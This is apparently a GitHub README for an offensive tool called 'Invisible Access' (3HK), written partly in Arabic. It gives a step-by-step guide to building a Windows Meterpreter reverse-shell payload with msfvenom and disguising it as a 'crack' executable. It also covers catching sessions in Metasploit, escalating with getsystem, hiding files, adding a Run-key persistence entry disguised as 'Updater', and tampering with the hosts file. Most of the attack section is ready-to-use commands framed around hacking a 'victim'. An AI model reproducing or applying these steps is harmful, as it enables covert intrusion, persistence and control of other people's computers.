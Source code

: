 # Invisible Access
This repository is part of the 3HK initiative. It provides an experimental framework for generating custom payloads and demonstrating basic backdoor mechanisms.
The goal is to illustrate core concepts of access persistence, payload delivery, and post-exploitation techniques.
Alongside the scripts, you’ll find explanatory notes and sample files that serve as learning references.
```
Use it wisely. Or don’t.
```
👹 3HK

## Static Ip
#### Basic step

1.    Install VMware Workstation or any other virtual Machine 
2.    download kali-linux-2025-W22-installer-amd64 *(ISO)*
3.    Create your own Machine

### VMware Settings

   1. Player -> Manage -> Virtual Machine Settings
   2. Network Adapter  -> Bridged : Connected directly to the physical Network
   3. select *_Replicate physical network connection state_*

### Point Acces Mobile (متاصل من هاتف)
```
 sudo nano /etc/network/interfaces
```
	فالملف كتب :
```
# The loopback network interface
auto lo
iface lo inet loopback
```
Now we go to *Resolv.conf*
```
sudo nano /etc/resolv.conf
```
Add your nameserver, exemple if ur ip is 192.168.42.50 put 
```
nameserver 192.168.42.1
```
⚠️*Restart your pc*

### Wifi
```
 sudo nano /etc/network/interfaces
```
	Clear the previous two lines of *Point Acces Mobile (متاصل من هاتف)*
	add these lines and dont forget to change *XXX* to a number between 1 to 255.
```
auto eth0
iface eth0 inet static
    address 192.168.1.XXX
    netmask 255.255.255.0
    gateway 192.168.1.1
```
Now we go to *Resolv.conf*
```
sudo nano /etc/resolv.conf
```
Add these domains 
```
nameserver 8.8.8.8
nameserver 8.8.4.4
nameserver 1.1.1.1
```
⚠️*Restart your pc*

## Download Tools

**Metasploit**
```
sudo apt install metasploit-framework
```
**ps2exe**
	* run PowerShell as an administrator
```
Find-Module -Name PowerShellGet | Install-Module 
Set-ExecutionPolicy RemoteSigned -Scope CurrentUser
Install-Module -Name ps2exe
```
## Command line

   Here u gonne find all command u need, we started with Created Payload
```
Cd Desktop
msfvenom -p windows/meterpreter/reverse_tcp LHOST={YOUR IP} LPORT={YOUR PORT 8080 or 4444 ...} -f exe -o {Name of your Payload}.exe
```
   **Compression of Payload**
```
tar -czvf {Compressed file name}.tar.gz {Name of your Payload}.exe
```
   **Create a Malware backdoor**

   * Download my file _Crack.ps1_
   * Edit the file to suit your Payload.

   **Convert file powershell (.Ps1) to Exe
   1. Run Powershell.
   2. Go to the file location.
   3. Command line (Change name *crack* to your)
```
Invoke-ps2exe .\crack.ps1 .\crack.exe -noConsole
```

### Metasploit
   Now with the moment awaited to hack the victim 🗡
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST {YOUR IP}
set LPORT {YOUR PORT 8080 or 4444 ...}
run
```
This is the quiet before the breach *_msfconsole_* is loaded. *Payload* deployed,
Metasploit doesn’t knock — it walks in, one click, one exploit... and they’re mine 🗡
After they made the mistake :)
``` 
Sessions -i
```
   **Chose the sessions of your victime example 1**
```
sessions 1
getuid   | يعرض المستخدم الحالي
getsystem  | أخد صلاحية System
```
   **Hide files, change your file link if you change it**
```
execute -f cmd.exe -a "/c attrib +h +s C:\\Users\\Administrator\\AppData\\Roaming\\Microsoft\\Windows\\{Name of your Payload}.exe"

execute -f cmd.exe -a "/c attrib +h +s C:\\Users\\Administrator\\AppData\\Roaming\\Microsoft\\Windows\\{Name of your Backdoor crack}.exe"
```
   **Create the file in the registry**
```
reg setval -k "HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run" -v "Updater" -d "C:\\Users\\Administrator\\AppData\\Roaming\\{Name of your Payload}.exe"
```
   **Block Website**
```
execute -f cmd.exe -a "/c echo 127.0.0.1 {PUT LINK OF WEBSITE U WANT TO BLOCK}.com >> C:\\Windows\\System32\\drivers\\etc\\hosts"
```
   **Kill Programe (Stop Running)**
```
execute -f cmd.exe -a "/c taskkill /{PROGRAM NAME}.exe /F"
```
   **Upload the file to the victim's pc**
```
upload /home/xxxx/Desktop/YYY
```
   *xxxx : name of ur folder (link)
   *YYY  : name of file 
 
## Tutorial Video 
[![3HK- Rosetta Stone](https://user-images.githubusercontent.com/47686437/168548113-b3cd4206-3281-445b-b7c6-bc0a3251293d.png)](https://www.youtube.com/)







